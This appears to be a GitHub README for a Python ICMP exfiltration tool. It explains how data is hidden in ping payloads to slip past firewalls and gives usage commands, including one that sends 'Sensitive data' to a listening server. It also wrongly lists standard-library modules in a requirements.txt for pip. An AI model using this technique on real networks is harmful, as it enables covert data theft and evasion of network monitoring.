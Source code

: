 # ICMP-Tool
This tool is a Python-based ICMP exfiltration tool designed to send and receive data through ICMP (Internet Control Message Protocol)

## How ICMP Exfiltration Works

ICMP (Internet Control Message Protocol) is typically used for sending error messages and operational information, such as in the **ping** command. However, ICMP can also be used for data exfiltration by embedding data within ICMP echo request and reply messages.

### Steps of ICMP Exfiltration:

1. **ICMP Echo Request:**
   - The client sends an ICMP **Echo Request** message to the server, similar to how the `ping` command works.
   - Data is embedded in the request packet as the payload.

2. **ICMP Echo Reply:**
   - The server responds with an **Echo Reply**, typically containing the same payload.
   - The data from the echo request is received and processed on the server.

### Advantages:
- ICMP packets often pass through firewalls and network filters because ICMP is commonly allowed for diagnostic purposes.
- Since ICMP is lightweight and commonly used, it can be leveraged to covertly exfiltrate small amounts of data.

## How to Use the Script

### Prerequisites:
- **Python 3.x** is required.
- Admin privileges are necessary to create raw sockets for ICMP communication.

### Script Features:

- **Base64 Encoding (`--b64` flag)**: You can encode messages in Base64 to safely transmit special characters.
- **Cross-Platform**: The script works on both Linux and Windows.
- **Client/Server Mode**: Use the `--client` flag to send ICMP packets or the `--server` flag to listen for ICMP packets.

### Script Usage

1. **Server Mode** (to receive data):
   ```bash
   sudo python3 icmp_tool.py --server
   ```

2. **Client Mode** (to send data):
   **Without Base64 Encoding**:
     ```bash
     sudo python3 icmp_tool.py --client <server_ip> "<message>"
     ```
   **With Base64 Encoding**:
     ```bash
     sudo python3 icmp_tool.py --client <server_ip> "<message>" --b64
     ```

### Example Workflow:

1. **Start the server** on a machine (e.g., IP: 192.168.1.87):
   ```bash
   sudo python3 icmp_tool.py --server
   ```

2. **Send a message** from the client machine:
   ```bash
   sudo python3 icmp_tool.py --client 192.168.1.87 "Sensitive data"
   ```

3. **Send a Base64-encoded message** from the client machine:
   ```bash
   sudo python3 icmp_tool.py --client 192.168.1.87 "Sensitive data" --b64
   ```

### Understanding the Output:

- The **server** will show received ICMP packets and display whether the message was Base64 encoded.
- If `--b64` is used, the server will display both the encoded and decoded messages.

### Cross-Platform Execution:

- On **Linux**, run the script with `sudo`:
   ```bash
   sudo python3 icmp_tool.py --client <server_ip> "<message>"
   sudo python3 icmp_tool.py --server
   ```

- On **Windows**, execute the script from a command prompt **run as Administrator**:
   ```cmd
   python icmp_tool.py --client <server_ip> "<message>"
   python icmp_tool.py --server
   ```

## Installing Dependencies

This script uses built-in Python libraries like `socket`, `base64`, and `struct`. There are no external dependencies. However, to ensure proper execution, especially if you are planning to add more functionalities, you can create a `requirements.txt` file for package management.

## `requirements.txt`

If needed, create the following `requirements.txt` file:

```text
base64
socket
struct
```

### Installing dependencies:

To install dependencies from the `requirements.txt` file, use:
```bash
pip install -r requirements.txt
```

This will ensure that all necessary modules are available for running the script.

## Conclusion

This script leverages ICMP echo request and reply messages for data exfiltration. By embedding sensitive data within ICMP packets, attackers can potentially bypass network filters. The script supports both plain and Base64-encoded message transmission, and works on both Windows and Linux. Use it carefully for testing and demonstration purposes!
